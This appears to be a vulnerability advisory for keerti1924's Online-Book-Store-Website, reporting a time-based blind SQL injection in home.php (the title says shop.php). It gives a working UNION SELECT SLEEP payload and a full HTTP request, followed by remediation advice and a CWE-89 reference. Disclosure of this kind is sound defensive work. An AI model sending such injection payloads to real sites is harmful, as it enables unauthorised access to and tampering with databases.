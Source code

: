 # keerti1924 / Online-Book-Store-Website - shop.php Blind SQL Injection

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The 'home.php' script in keerti1924's Online-Book-Store-Website is vulnerable to Blind SQL Injection attacks. An attacker could exploit this vulnerability to execute arbitrary SQL queries on the underlying database, potentially leading to unauthorized access to sensitive information or data manipulation.

## Proof of Concept
Step 1: Login as a normal user\
Step 2: Make a Post request to home.php  with the following payload "add_to_cart=1&product_name=asdasd'+UNION+SELECT+SLEEP(10),NULL,NULL,NULL,NULL,NULL+%23&product_price=123&product_quantity=1&product_image=1"\
Step 3: Submit the request and observe a 10-second delay in the response.\

## HTTP Request Example
``` http request
POST /home.php HTTP/1.1
Host: [REDACTED]
Content-Length: 139
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

add_to_cart=1&product_name=asdasd'+UNION+SELECT+SLEEP(10),NULL,NULL,NULL,NULL,NULL+%23&product_price=123&product_quantity=1&product_image=1
```

## Proof with screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/ed48126c-7fbc-4150-910d-438d81037bed)


## Remidiation
To mitigate this issue, developers should implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, limiting the privileges of the database user used by the application and enforcing least privilege principles can further reduce the impact of SQL injection vulnerabilities.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
